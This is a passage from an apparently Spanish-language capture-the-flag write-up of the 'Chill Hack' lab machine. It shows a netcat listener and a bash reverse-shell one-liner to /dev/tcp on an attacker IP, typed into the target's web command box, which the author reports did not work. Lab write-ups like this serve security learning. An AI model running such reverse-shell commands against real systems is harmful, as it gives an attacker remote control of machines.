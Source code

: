 ![imagen_hacking_chill-hack_5comandobueno.png](/imagen_hacking_chill-hack_5comandobueno.png)

Vamos a intentar crear una shell reversa, recomiendo el uso de [RevShell](https://www.revshells.com).
En nuestra máquina atacante ejecutamos:
```bash
nc -lnvp 9000
```
![imagen_hacking_chill-hack_6shellkali.png](/imagen_hacking_chill-hack_6shellkali.png)
Y en la terminal de la página vamos a poner:
```bash
sh -i >& /dev/tcp/10.9.3.9/9000 0>&1
```
Lamentablemente, parece que el comando no ha funcionado. Volveremos a esto más adelante, antes vamos a ir al servidor FTP